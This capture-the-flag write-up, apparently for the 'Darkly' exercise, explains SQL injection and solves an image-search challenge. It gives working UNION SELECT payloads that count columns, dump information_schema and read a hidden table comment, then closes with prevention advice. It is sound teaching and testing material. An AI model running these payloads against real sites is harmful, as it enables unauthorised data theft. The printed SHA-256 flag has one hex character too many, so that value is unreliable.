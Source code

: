 # SQL Injection - Images

## Definition

Listed among the OWASP top 10 Web Application Security Risks, an injection "occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorization." (OWASP)

More precisely an SQL injection will trick an SQL interpreter.

## Some use cases

* accessing sensitive data and stealing / corrupting / deleting 
* injecting data
* taking host over
* denial of service

## Exploit on Darkly

### Context
On the `Search image` part of the site we are asked to enter an `IMAGE NUMBER`. The query outputs 3 fields:
	* the `ID` (image number) we made the query on
	* `Title`
	* `Url`

### Solution
As there is a potential SQL injection weakness, we do the following:

1. Trying to know how many columns there are in the original query (see below for the explanation about those commands): 
	* `1 UNION SELECT 1` outputs nothing
	* `1 UNION SELECT 1, 2` works fine so we guess there are two columns

2. Get the tables schema and names:
	* `1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables`

3. Get the tables columns:
	* `1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns`

4. Combining all the information we got from those queries, we discover that there is a `list_images` table with some potentially interesting columns:
	* `1 AND 1=2 UNION SELECT comment, 1 FROM Member_images.list_images` outputs, for one of the images, `If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46`

5. Following the instructions above:
	* we decrypt the hash on [dcode](https://www.dcode.fr/fonction-hash#f0), what outputs `albatroz`
	* on the same website, we hash (shasum 256) `albatroz`, what outputs `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d61885`


### More details about the SQL commands

* `UNION` is a command that allows to concatenate the results of two different queries. The two queries must have the same number of columns
* `AND 1=2` is a condition that makes the first query always `false`: it won't output anything and we will gain readability

## Some ways to avoid it

* never trust the user inputs : validate / filter / sanitize the data sent to the site:
	* in our example, check that the user input is only an integer
	* for other queries (for example involving strings), escape all the special chars
	* set a whitelist of accepted characters
* in case the injection succeeds:
	* use control commands like `LIMIT` in SQL
	* use principle of least privilege